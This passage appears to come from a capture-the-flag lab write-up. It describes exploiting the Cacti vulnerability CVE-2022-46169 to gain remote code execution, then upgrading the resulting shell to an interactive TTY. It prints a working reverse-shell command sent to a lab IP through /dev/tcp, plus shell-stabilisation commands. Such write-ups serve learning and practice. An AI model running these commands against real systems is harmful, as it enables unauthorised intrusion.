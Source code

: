 > Note that this exploit does not pop a shell, it just provides a single command of RCE. So you can only tell if it worked by creating a reverse shell yourself, or perhaps standing up a webserver and having it wait for a wget/curl request from the target, etc. 
>
> I chose to go directly to a reverse shell, because that's how the previous exploit code in `51166.py` worked.

```bash
python3 CVE-2022-46169.py -c "bash -c 'exec bash -i &>/dev/tcp/10.10.14.2/32476 <&1'" --n_host_ids 100 --n_local_data_ids 100 http://$RADDR
```

And... voila! 🎉 We have a reverse shell:

![reverse shell](reverse%20shell.png)

> 🐒 This got me wondering why the previous script didn't work. 
>
> Doing a quick comparison of the code, it looks like `51166.py` mixed up the `X-Forwarded-For` header with the address of the Cacti server. I corrected this in my modification of `51166.py` and tried re-running it, but still no luck: no reverse shell. 
>
> I'll have to take a more in-depth look at this later.

### Upgrading the Shell

I originally learned this procedure [from this blog post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). It goes into much more depth, but I find that the following is usually sufficient. In only a few rare cases have I had to do more than this.

 Starting with the "dumb" shell, change from ``sh`` to ``bash``:

```bash
perl -e 'exec "/bin/bash"'
```

> You'll have a better prompt now, but still no tab completion and still no ability to use things like ``less`` or ``vi``. Let's fix that:

```bash
[ctrl+z]
stty raw -echo; fg
[enter] [enter]
export TERM=xterm-256color
```

The shell will be backgrounded, then enable echo mode with ``stty``, then brought back to the foreground. This should make the shell much more comfortable to use. Enjoy your tab-completion and colours 🌈.



## USER FLAG

### www-data
